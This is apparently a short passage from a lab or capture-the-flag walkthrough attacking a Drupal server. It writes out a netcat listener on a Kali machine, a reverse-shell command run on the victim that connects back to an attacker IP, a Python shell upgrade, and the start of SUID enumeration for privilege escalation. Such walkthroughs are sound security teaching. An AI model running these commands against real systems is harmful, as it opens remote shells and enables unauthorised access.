

I can run commands on the back-end server. So, let's get a “reverse shell” to my “Kali Linux” machine using “nc” utility.
a) On your Kali Machine open a “Netcat listener”
$ nc -lnvp 4444
b) On the Drupal Shell type:
-n: numeric-only IP addresses, no DNS. -v: verbose.
> nc -nv 192.168.12.28 4444 -e /bin/bash
c) On your Kali Machine get a shell.
$ python3 -c 'import pty;pty.spawn("/bin/bash")' $ id
Output: 
d) On your Kali Machine check on the victim machine for any file having SUID permissions with the help of “find” command. By using the following command, we enumerated all binaries having SUID permissions: